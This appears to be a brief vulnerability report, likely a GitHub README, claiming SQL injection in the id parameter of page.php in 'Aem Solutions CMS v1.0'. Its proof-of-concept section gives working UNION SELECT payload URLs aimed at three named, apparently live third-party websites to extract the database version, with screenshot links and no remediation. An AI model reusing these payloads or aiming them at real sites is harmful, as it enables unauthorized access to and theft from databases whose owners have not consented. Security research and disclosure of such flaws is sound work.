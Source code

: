 # Aem Solutions - Sql Injection

#### vender:https://www.aemsolutions.com/

#### Software: Aem Solutions CMS v1.0

Tested On: Mac, Firefox

### Description

Sql Injection of param id in page.php of Aem Solutions CMS v1.0.

## Proof of Concept:

### Demo :

https://www.aaar.co.in/page.php?id=-3%27%20union%20select%201,2,3,version(),5--+

https://csalok.com/page.php?id=2%27%20union%20select%201,2,3,version(),5--+

https://www.pnaindia.in/page.php?id=6%27%20union%20select%201,2,3,version(),5--+

- We can see the version of Database.

![image-20250525234100384](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505252341623.png)

![image-20250525234320873](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505252343147.png)